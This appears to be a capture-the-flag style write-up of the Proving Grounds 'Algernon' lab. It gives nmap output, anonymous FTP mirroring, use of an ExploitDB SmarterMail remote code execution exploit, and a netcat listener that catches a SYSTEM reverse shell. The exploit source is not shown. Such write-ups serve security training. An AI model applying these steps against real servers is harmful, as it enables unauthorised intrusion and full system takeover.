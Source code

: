 ```yaml
---
layout: post
title: PG | Algernon
subtitle: Algernon sure is a clever one.
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-16 07:42:49 UTC
Nmap scan report for 192.168.182.65
Host is up, received user-set (0.015s latency).
Scanned at 2023-10-16 07:42:49 EDT for 559s
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  ftp           syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  10:31PM       <DIR>          ImapRetrieval
| 10-16-23  04:41AM       <DIR>          Logs
| 04-29-20  10:31PM       <DIR>          PopRetrieval
|_04-29-20  10:32PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
5040/tcp  open  unknown       syn-ack
9998/tcp  open  http          syn-ack Microsoft IIS httpd 10.0
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /interface/root
|_http-server-header: Microsoft-IIS/10.0
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Mon, 16 Oct 2023 11:51:53 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 9D7294CAAB5C2DF4CD916F53653714D5
17001/tcp open  remoting      syn-ack MS .NET Remoting services
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-16T11:51:56
|_  start_date: N/A
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 18291/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 31424/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 42389/udp): CLEAN (Timeout)
|   Check 4 (port 5332/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 559.07 seconds
~~~

# Service Enumeration

## FTP (TCP/21)

The target is hosting an FTP server that allows anonymous connections, after downloading all available files there were a series of log files, however after searching through them they did not grant us any useful information to further us.

~~~shell
┌──(kali㉿kali)-[~/…/Algernon/results/192.168.175.65/scans]
└─$ wget -m --no-passive ftp://anonymous:anonymous@192.168.182.65 
~~~

![Algernon](/assets/img/AlgernonByPG(1).png)

## HTTP (TCP/80)

An Apache web server is running on port 80

![Algernon](/assets/img/AlgernonByPG(2).png)

I ran a sub-directory fuzzing scan and checked the webpages source code, but neither revealed anything of use

## HTTP (TCP/9998)

A SmarterMail web mail server is being hosted on port 9998 on the target machine where we are prompted for login credentials, the default SmarterMail credentials admin:admin failed

![Algernon](/assets/img/AlgernonByPG(3).png)

I searched for exploits for SmarterMail and found a Remote Code Execution (RCE) exploit

![Algernon](/assets/img/AlgernonByPG(4).png)

I copied the exploit to my current directory, then changed the target IP and local IP/Port for the shell (I used port 445 to avoid firewall restrictions as it is used for SMB)

~~~shell
┌──(kali㉿kali)-[~/Desktop/Algernon]
└─$ cp /usr/share/exploitdb/exploits/windows/remote/49216.py .
~~~

![Algernon](/assets/img/AlgernonByPG(5).png)

I started a netcat listener on port 445

~~~shell
┌──(kali㉿kali)-[~/Desktop/Algernon]
└─$ nc -nvlp 445 
listening on [any] 445 ...
~~~

I ran the exploit and recieved a root (system) shell!

~~~shell
┌──(kali㉿kali)-[~/Desktop/Algernon]
└─$ nc -nvlp 445 
listening on [any] 445 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.182.65] 49952
whoami
nt authority\system
PS C:\Windows\system32> 
~~~